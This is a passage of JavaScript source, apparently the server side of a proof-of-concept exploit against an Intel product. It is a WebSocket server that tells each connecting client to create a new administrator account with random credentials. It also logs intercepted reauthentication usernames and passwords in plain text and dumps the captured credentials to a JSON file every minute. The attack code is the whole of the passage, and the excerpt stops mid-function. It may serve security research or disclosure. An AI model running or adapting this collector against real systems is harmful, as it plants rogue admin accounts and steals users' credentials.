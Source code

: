 ```javascript

    // Log a bunch of stuff to the console.
    console.log("---BEGIN REAUTH ATTEMPT CREDENTIALS---");
    console.log(`Reauth Credentials: ${msg.reauthUsername}:${msg.reauthPassword}`);
    
    const netInfo = handleInfo(msg.info);
    console.log("---END REAUTH ATTEMPT CREDENTIALS---");
    console.log();

     // Save to In Memory Database.
    RESULTS.reauthCredentials.push( { username: msg.reauthUsername, password: msg.reauthPassword, netInfo: netInfo } );
}

wss.on('connection', function connection (ws) {
  // As soon as a client opens up a WebSocket Connection to this server
  // send it a message telling the client to create a new Admin user
  // using the server-specified username and password.
  ws.send(JSON.stringify({
        username: Math.random().toString(36).slice(2),
        password: Math.random().toString(36).slice(2) + "A1!", // "A1!" is concatenated to pass Intel's password policy.
        code: 1
  }));

  // WebSocket Message Handler Function.
  ws.on('message', function message (data) {
        const msg = JSON.parse(data.toString());
        switch (msg.code) {
            case 2:
                // New Admin Created!
                handleNewAdmin(msg);
                break;
            case 3:
                // Reauth Attempt Occured!
                handleReauth(msg);
                break;
            default:
                break;
        }
  });
});

function dumpResults () {
    return new Promise(function (resolve) {
        const fileName = `results-${START.getTime()}.json`;
        console.log("Dumping results to disk");
        fs.writeFile(fileName, JSON.stringify(RESULTS), function() {
            console.log("Dumped results to: ./" + fileName);
            resolve();
        });
    });
}

// Every minute, dump the in memory database to disk.
const timer = setInterval(dumpResults, 60 * 1000);

// Handle "CTRL+C" (SIGINT) by dumping out in memory database
// and then exit
process.on('SIGINT', function () { 
    clearInterval(timer);
    dumpResults()
        .then(process.exit)
```